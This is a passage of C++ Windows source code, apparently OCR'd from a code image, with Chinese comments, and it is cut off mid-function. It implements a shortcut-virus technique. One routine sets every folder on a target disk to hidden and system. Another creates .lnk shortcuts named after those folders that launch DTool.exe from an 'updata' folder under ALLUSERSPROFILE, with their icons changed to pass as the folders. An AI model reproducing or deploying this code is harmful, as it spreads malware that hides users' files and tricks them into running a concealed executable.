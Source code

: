 ```
		OutputDebugString(file.MyVectorFile[i].szFilePath);
	}
 
	if (file.MyVectorFile.size()>0)
	{
		return 1;
	}
 
	return 0;
}
 
 
int set_hide_directory(TCHAR str_disk[])
{
	OutputDebugStringA("set_hide_directory fun:");
	CSearchFile file;
 
	file.SearchFile(_T("."), str_disk);
 
	for (DWORD i = 0; i < file.MyVectorFile.size(); i++)
	{
		SetFileAttributes(file.MyVectorFile[i].szFilePath, FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_SYSTEM);//设置隐藏属性  
		OutputDebugString(file.MyVectorFile[i].szFilePath);
	}
 
	return 1;
}
 
int create_link(TCHAR str_disk[])
{
	OutputDebugStringA("create_link fun:");
	CSearchFile file;
 
	file.SearchFile(_T("."), str_disk);
 
	for (DWORD i = 0; i < file.MyVectorFile.size(); i++)
	{
		TCHAR str_all_user_path[MAX_PATH] = { 0 };
		TCHAR str_exe_path[MAX_PATH] = { 0 };//DTool.exe的路径  
		GetEnvironmentVariable(_T("ALLUSERSPROFILE"), str_all_user_path, MAX_PATH);
		_stprintf(str_exe_path, _T("%s\\updata\\DTool.exe"), str_all_user_path);
 
		TCHAR path_buffer[_MAX_PATH];
		_stprintf(path_buffer, _T("%s.lnk"), file.MyVectorFile[i].szFilePath);
		//OutputDebugString(path_buffer);  
		CreateLinkThenChangeIcon(str_exe_path, path_buffer);
	}
 
	return 1;
 
}
 
void CreateLinkThenChangeIcon(LPTSTR fname_to_create_link,
	LPTSTR lnk_fname)
{
	CoInitialize(0);
 
	HRESULT hres;
	IShellLink *psl = NULL;
	IPersistFile *pPf = NULL;
	WCHAR wsz[256];
	TCHAR buf[256];
```